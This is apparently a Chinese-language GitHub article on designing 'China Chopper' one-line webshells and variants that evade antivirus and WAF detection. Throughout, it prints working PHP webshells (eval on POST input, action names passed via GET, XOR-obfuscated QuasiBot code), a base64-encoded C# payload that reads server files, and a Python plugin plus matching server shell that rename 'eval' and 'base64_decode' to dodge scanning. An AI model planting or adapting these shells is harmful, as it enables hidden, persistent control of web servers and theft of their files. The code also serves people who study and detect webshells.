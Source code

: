 # 经典菜刀一句话小马及其变形的设计思路

经典的菜刀一句话类似于：
```PHP
@eval($_POST['pass'])
```

这里的eval便是我们要执行的动作。而真正要执行的代码以字符串形式存在的$_POST['pass']。

这类小马总是接受来自客户端的发来的Request，然后对其中特定的邪恶字符串动态求值，并将执行结果以特定的格式Response回客户端。一句话小马的核心特征总是可以归结为这样的形式：

```PHP
$act（$evilStr）
```

其中，$act可能代表eval、system，或如带e标志的preg_replace之类可执行字符串的动作，$evilStr代表一段以字符串形式存在的邪恶代码。

## 动作

在服务端的木马中直接写eval之类的敏感词很可能会导致被查杀。有两种基本思路可以绕过这个问题：

* 在服务端的小马里对动作名进行混淆
* 从客户端向小马传递动作名，从而避免在服务端的小马里看到eval之类的代码

### 混淆动作名

混淆动作名的方法很多，如字符串拼接、base64编码等等。关键是隐藏自己。

### 从客户端传递动作名：

木马类似于：

```PHP
$act=$_GET['act'];
$evilStr=$_POST['evilStr'];
$act($evilStr);
```

则客户端POST恶意数据到victim.php?act=eval即可完成。

### 结合两者：

比如QuasiBot的服务端木马：

```PHP
if($_GET['_']) {
    print "<!--".$_="{:|";
    $_=($_^"<").($_^">").($_^"/"); # 结果为$_="GET"
    ${'_'.$_}["_"](${'_'.$_}["__"]);    #结果为$_GET['_']($_GET['__'])
    print "{:|".md5("666".date("h:d"))."{:|".PHP_OS."{:|-->";
}else{
    //...
}
```

很显然，这段代码实际上是利用异或^运算符做了代码混淆，本质上还是通过客户端传递动作名来达到隐蔽自己的效果。



## 邪恶代码的字符串

这部分便是我们实际要运行的代码。由于WAF的缘故，经常需要对之进行编码加密，常用的便是利用base64_decode()。
解密工作可以放到服务端的小马中完成，也可以放在邪恶字符串中——每当邪恶字符串被求值的时候，就会触发自解密。
比如菜刀的某一段邪恶功能字符串经过整理后可能类似于：
```C#
//ee=
Response.Write("->|");
var err:Exception;
try{
    eval(
        System.Text.Encoding.GetEncoding(65001).GetString(
            System.Convert.FromBase64String("dmFyIFA9U3lzdGVtLlRleHQuRW5jb2RpbmcuR2V0RW5jb2RpbmcoNjUwMDEpLkdldFN0cmluZyhTeXN0ZW0uQ29udmVydC5Gcm9tQmFzZTY0U3RyaW5nKFJlcXVlc3QuSXRlbVsiejEiXSkpO3ZhciBtPW5ldyBTeXN0ZW0uSU8uU3RyZWFtUmVhZGVyKFAsRW5jb2RpbmcuRGVmYXVsdCk7UmVzcG9uc2UuV3JpdGUobS5SZWFkVG9FbmQoKSk7bS5DbG9zZSgpOw%3D%3D")
        ),
        "unsafe"
    );
}catch(err){
    Response.Write("ERROR:// "%2Berr.message);
}
Response.Write("|<-");
Response.End();
```
配合着发送的还有这样一个QueryString

```C#
z1=QzpcXERvY3VtZW50cyBhbmQgU2V0dGluZ3NcXEFkbWluaXN0cmF0b3JcXOahjOmdolxcMjIyLmNzdg%3D%3D
```

其中：

* ee代表的邪恶字符串经过urldecode、base64_decode之后，得到明文是:

```C#
var P=System.Text.Encoding.GetEncoding(65001).GetString(
    System.Convert.FromBase64String(Request.Item["z1"])
);
var m=new System.IO.StreamReader(P,Encoding.Default);
Response.Write(m.ReadToEnd());
m.Close();
```

* z1实际上是一段经过base64编码的字符串，用作ee代表的那段邪恶代码的变量。


当然，这样直接把eval和base_decode这类敏感词写到邪恶字符串中，还是带有一定的通信特征，很容易被查杀，所以一个习科有个Python插件版的菜刀，支持把eval、base_decode()之类的敏感词替换为其他非敏感字符串，然后再在服务端的小马中予以还原。

Python的插件脚本为：
```Python
def makepostdata(headers,postdata):
    open('headers.txt','wb').write(headers)
    open('postdata.txt','wb').write(postdata)
    headers = headers.replace('X-Forwarded-For','asdasd')
    postdata = postdata.replace('eval','xxxx')
    postdata = postdata.replace('base64_decode','yyyy')
    return headers,postdata
```

这个插件作者给出的服务端的小马类似于：
```PHP
<?php
    function xxxx($str){return eval($str);}
    function yyyy($str){return base64_decode($str);}
    xxxx($_POST['pass']);
?>
```

当然，这种服务端小马未对敏感词做混淆，可以配合异或符进一步隐蔽。
